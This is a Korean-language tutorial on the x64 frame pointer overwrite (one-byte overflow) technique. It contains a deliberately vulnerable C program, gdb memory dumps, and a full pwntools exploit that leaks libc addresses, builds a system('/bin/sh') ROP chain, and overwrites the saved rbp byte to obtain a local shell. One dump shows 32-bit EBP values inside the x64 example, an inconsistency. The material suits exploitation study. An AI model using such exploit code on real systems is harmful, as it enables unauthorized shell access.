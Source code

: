 # **x64 Frame Pointer Overwrite**

Frame Poineter를 1byte 덮어써 코드의 흐름을 변경하는 기법. One-byte Overflow라고도 한다.

## **Proof of Concept**

```c
// Vuln Code
// gcc -fno-stack-protector -o fpo fpo.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>
 
void vuln(){
    char buf[32];
    printf("buf[32] address : %p\n",buf);
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 49);
}
 
void main(int argc, char *argv[]){
    if(argc<2){
        printf("argv error\n");
        exit(0);
    }
    vuln();
}
```

buf는 32 byte지만 read를 49 byte하여 bof 발생.

```
0x7ffe119a28b0:	0x4141414141414141         0x4141414141414141
0x7ffe119a28c0:	0x4141414141414141         0x4141414141414141
0x7ffe119a28d0:	0x4141414141414141         0x4141414141414141
0x7ffe119a28e0:	0x00007ffe119a2942 <= rbp  0x000000000040079b 
0x7ffe119a28f0:	0x00007ffe119a29e8         0x0000000200000000
```

&buf+4(0xbfa07cfe)의 마지막 byte(0xfe)를 EBP의 마지막 바이트에 삽입.

```
gdb-peda$ x/24x $ebp
0xbfa07d02:	0x43434343	0x44444444	0x45454545	0x46464646
0xbfa07d12:	0x47474747	0x48484848	0x80ecb70a	0x0002b7d2
```

1 byte 오버플로를 통해 rbp 변경 확인.

```
gdb-peda$ x/24gx $rbp
0x7ffe119a2942:	0x29e0000000000040	0x000000007ffe119a
0x7ffe119a2952:	0x0000000000000000	0x2989000000000000
0x7ffe119a2962:	0x29894ef138aa26b6	0x00004ff63f51fb46
```

leave 명령으로 인해 rbp 레지스터 값은 rsp에 저장됨.  
따라서 1 byte 변조하여 RTL 코드 또는 Shellcode가 저장된 영역을 가리키게 한다면 Shell 획득 가능.

## **Exploit Code**
```python
# Exploit Code
from pwn import *

p=process(['./fpo','a'])
buf = p.recvline()
libc = p.recvline()

onebyte = int(buf.split(' ')[3][12:14],16)
libcBase = int(libc.split(' ')[3],16) - 0x55800
system = libcBase + 0x45390
binsh = libcBase + 0x18cd57
exit = libcBase + 0x3a030
poprdi = 0x400803

print('one byte: '+hex(onebyte))
print('libcBase: '+hex(libcBase))
print('system(): '+hex(system))
print('/bin/sh: '+hex(binsh))
print('exit: '+hex(exit))
print('pop rdi: '+hex(poprdi))

exploit_code = "A"*8
exploit_code += p64(poprdi)
exploit_code += p64(binsh)
exploit_code += p64(system)
exploit_code += "A"*(48-len(exploit_code))
exploit_code += p64(onebyte)

p.sendline(exploit_code)

p.interactive()
```

## **Exploit**
```shell
pwner@bs-virtual-machine:~$ python exploit.py 
[+] Starting local process './fpo': pid 10373
one byte: 0x50
libcBase: 0x7fe3ad0be000
system(): 0x7fe3ad103390
/bin/sh: 0x7fe3ad24ad57
exit: 0x7fe3ad0f8030
pop rdi: 0x400803
[*] Switching to interactive mode
$ id
uid=1001(pwner) gid=1001(pwner) groups=1001(pwner)
```

**Refereces**  
<https://www.lazenca.net/display/TEC/02.Frame+Pointer+Overwrite%28One-byte+Overflow%29+-+x64>
